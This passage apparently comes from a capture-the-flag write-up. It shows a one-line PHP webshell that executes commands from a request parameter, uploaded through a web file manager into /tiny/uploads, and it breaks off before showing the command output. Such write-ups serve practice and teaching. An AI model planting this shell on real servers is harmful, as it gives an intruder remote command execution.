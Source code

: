 ### Shell

I’ll make a simple PHP webshell:

    
    
    <?php system($_REQUEST["cmd"]); ?>
    

I’ll use the “Upload” button, and it offers a way to upload:

![image-20230604142956658](../img/image-20230604142956658.png)

If I try to upload in `/var/www/html/`, it fails:

![image-20230604143018728](../img/image-20230604143018728.png)

If I navigate to `/tiny/uploads` and then click “Upload”, it works:

![image-20230604143115422](../img/image-20230604143115422.png)

The webshell provides execution:

    
